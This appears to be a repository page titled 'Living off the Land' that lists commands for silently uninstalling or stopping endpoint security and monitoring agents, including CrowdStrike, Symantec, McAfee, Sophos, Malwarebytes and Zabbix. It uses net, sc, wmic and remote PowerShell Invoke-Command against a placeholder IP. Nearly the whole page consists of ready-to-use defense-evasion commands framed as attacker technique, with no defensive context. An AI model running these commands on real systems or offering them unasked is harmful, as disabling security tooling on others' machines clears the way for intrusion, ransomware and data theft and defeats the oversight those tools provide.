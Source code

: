# Living off the Land

TODO: Convert command prompt to Powershell cmdlets

## 01 - Uninstall Third-Party Endpoints

### 1.1 - MalwareBytes

#### 1.1.1 - Command Prompt

```
C:\> cmd.exe /c "C:\Program Files\Malwarebytes\Anti-Malware\unins001.exe" /silent /noreboot
```

#### 1.1.2 - PowerShell

```
PS C:\> Start-Process -FilePath "C:\Program Files\Malwarebytes\Anti-Malware\unins001.exe" -NoNewWindow -ArgumentList ("/silent","/noreboot")
```

## 02 - Disable Third-Party Endpoints

### 2.1 - CrowdStrike

Command Prompt

```
C:\> net.exe stop "CrowdStrike Falcon Sensor Service"
```

Powershell

```
PS C:\> Get-Service [-ComputerName <IP>] -Name "CrowdStrike Falcon Sensor Service" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "CrowdStrike Falcon Sensor Service")

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Stop-Service -Force -Name "CrowdStrike Falcon Sensor Service" }

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { cmd.exe /c "net.exe stop \"CrowdStrike Falcon Sensor Service\"" }
```

### 2.2 - Symantec

Command Prompt

```
C:\> net.exe stop "Symantec Endpoint Protection"

C:\> sc.exe \\<IP> stop "Symantec Endpoint Protection"
```

Powershell

```
PS C:\> Get-Service [-ComputerName <IP>] -Name "Symantec Endpoint Protection" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "Symantec Endpoint Protection")

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {Stop-Service -Force -Name "Symantec Endpoint Protection"}

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {cmd.exe /c "net.exe stop \"Symantec Endpoint Protection\""}
```

### 2.3 - Zabbix

Command Prompt

```
C:\> net.exe stop "Zabbix Agent"

C:\> sc.exe \\<IP> stop "Zabbix Agent"
```

Powershell

```
PS C:\> Get-Service [-ComputerName <IP>] -Name "Zabbix Agent" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "Zabbix Agent")

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {cmd /c "net.exe stop \"Zabbix Agent\""}

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {Stop-Service -Force -Name "Zabbix Agent"}
```

## 03 - Uninstall Endpoints

### 3.1 - Syntax

#### 3.1.1 - Command Prompt

```
C:\> wmic product get name /value
```

> [!NOTE]
> Some AVs particular anti-malware that is installed in windows taken measures to prevent attackers to uninstall it. But not all of them. When uninstalling the software you must have **administrative privileges**.

```
C:\> wmic product where name="<software_name>" call uninstall /nointeractive
```

#### 3.1.2 - Powershell

Convert the commands to cmdlets

```
Get-WmiObject
Get-CimAssociatedInstance
Get-CimInstance
Get-CimClass
Get-CimSession
```

### 3.2 - ESET

#### 3.2.1 - Command Prompt

```
C:\> wmic product where name="ESET File Security" call uninstall /nointeractive
```

### 3.3 - McAfee

#### 3.3.1 - Command Prompt

```
C:\> wmic product where name="McAfee VirusScan Enterprise" call uninstall /nointeractive

wmic product where name="McAfee Agent" call uninstall /nointeractive

wmic product where name="McAfee DLP Endpoint" call uninstall /nointeractive

wmic product where name="McAfee Endpoint Security Platform" call uninstall /nointeractive

wmic product where name="McAfee Endpoint Security Threat Prevention" call uninstall /nointeractive

wmic product where name="McAfee SiteAdvisor Enterprise" call uninstall /nointeractive
```

### 3.4.1 - MalwareBytes

#### 3.4.1.1 - Command Prompt

```
C:\> wmic product where name="Malwarebytes Managed Client" call uninstall /nointeractive
```

### 3.5.1 - AVG

#### 3.5.1.1 - Command Prompt

```
C:\> wmic product where name="AVG 2015" call uninstall /nointeractive
```

### 3.6 - Webroot

#### 3.6.1 - Command Prompt

```
C:\> wmic product where name="Webroot SecureAnywhere" call uninstall /nointeractive
```

### 3.7 - Symantec

#### 3.7.1 - Command Prompt

```
C:\> wmic product where name="Symantec Endpoint Protection" call uninstall /nointeractive

wmic product where name="Symantec Backup Exec Remote Agent for Windows" call uninstall /nointeractive
```

### 3.8 - Sophos

#### 3.8.1 - Command Prompt

```
C:\> wmic product where name="Sophos System Protection" call uninstall /nointeractive

wmic product where name="Sophos AutoUpdate" call uninstall /nointeractive

wmic product where name="Sophos Remote Management System" call uninstall /nointeractive
```

---
## References

- [LOFLCAB: Win32_Product](https://lofl-project.github.io/loflcab/WMI/Win32_Product/)